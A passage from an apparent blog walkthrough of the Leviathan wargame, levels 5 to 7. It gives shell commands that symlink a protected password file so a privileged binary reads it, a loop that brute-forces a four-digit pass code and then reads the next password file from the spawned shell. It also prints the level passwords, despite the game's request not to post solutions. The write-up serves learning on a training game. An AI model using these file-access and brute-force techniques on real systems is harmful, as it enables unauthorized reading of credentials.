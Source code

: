 ```sourceCode
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
UgaoFee4li
```

Result.

## Level 6 -&gt; 7

We need a 4 digit pass code to access this. I opted for brute force. For 4 digits that's by far the simplest and quickest way. After looking at the disassembly, we see that it will call `/bin/sh` and drop us to a shell, so we don't need an exit condition.

```sourceCode
leviathan6@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo $i && ./leviathan6 $i > /dev/null; done
0000
0001
.
.
7123
```

It stops there. Because we redirect to /dev/null, we need to ctrl+c and then enter the last printed number to get the password

```sourceCode
leviathan6@melinda:~$ ./leviathan6  7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```

The final flag for level 7 is

> Well Done, you seem to have used a \* nix system before, now try something more serious. (Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)

I understand the reasons, but this is not the only write up out there, and it is a fairly old wargame too. IMO I feel that providing these walkthroughs will help those who are stuck. If you are however just following this so that you can complete Leviathan, then you should sit down and have a go at this, or other war games without a guide. Challenge yourself.
